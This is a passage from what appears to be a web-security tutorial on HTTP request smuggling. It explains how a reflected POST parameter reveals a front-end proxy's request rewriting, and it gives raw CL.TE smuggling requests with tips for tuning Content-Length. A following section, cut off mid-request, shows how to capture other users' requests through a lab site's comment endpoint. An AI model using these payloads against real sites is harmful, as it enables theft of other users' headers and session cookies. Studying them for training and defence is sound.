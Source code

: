For discovering how is the proxy rewriting the request you need to **find a POST parameter that the back-end will reflect it's value** on the response. Then, use this parameter the last one and use an exploit like this one:

`POST / HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 130  
Connection: keep-alive  
Transfer-Encoding: chunked  
0  
  
POST /search HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 100  
  
search=`

In this case the next request will be appended after `search=` which is also **the parameter whose value is going to be reflected** on the response, therefore it's going to **reflect the headers of the next request**.

Note that **only the length indicated in the `Content-Length` header of the embedded request is going to be reflected**. If you use a low number, only a few bytes will be reflected, if you use a bigger number than the length of all the headers, then the embedded request will throw and error. Then, you should **start** with a **small number** and **increase** it until you see all you wanted to see.  
Note also that this **technique is also exploitable with a TE.CL** vulnerability but the request must end with `search=\r\n0\r\n\r\n`. However, independently of the new line characters the values are going to be appended to the search parameter.

Finally note that in this attack we are still attacking ourselves to learn how the front-end proxy is rewriting the request.

### Capturing other users' requests <a id="capturing-other-users-requests"></a>

If you can find a POST request which is going to save the contents of one of the parameters you can append the following request as the value of that parameter in order to store the quest of the next client:

`POST / HTTP/1.1  
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 319  
Connection: keep-alive  
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi  
Transfer-Encoding: chunked  
  
0  
  
POST /post/comment HTTP/1.1  
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net  
Content-Length: 659  
Content-Type: application/x-www-form-urlencoded  
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi  
  